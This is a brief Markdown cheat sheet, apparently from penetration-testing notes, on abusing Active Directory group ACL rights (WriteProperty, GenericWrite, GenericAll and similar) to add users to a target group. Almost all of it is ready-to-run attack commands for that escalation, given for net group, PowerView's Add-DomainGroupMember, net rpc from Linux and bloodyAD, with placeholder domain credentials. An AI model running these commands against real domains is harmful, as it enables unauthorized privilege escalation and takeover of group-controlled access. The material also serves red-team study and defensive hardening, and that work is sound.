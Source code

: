 # DACL Attacks on a group

## 1) WriteProperty/AllExtendedRights/GenericWrite Self/Generic ALL

With one of these rights, we can add a new member to the group

    net group TARGET_GROUP user1 /add

### PowerView

    Add-DomainGroupMember -Identity 'TARGET_GROUP' -Members 'user1'

### Linux

    net rpc group addmem GROUP user2 -U domain.local/user1%password -S DC_IP

### BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "user2" -p "Password@1" add groupMember "GROUP" "user2"

### Windows Net command

    net group "GROUP" user2 /add /domain
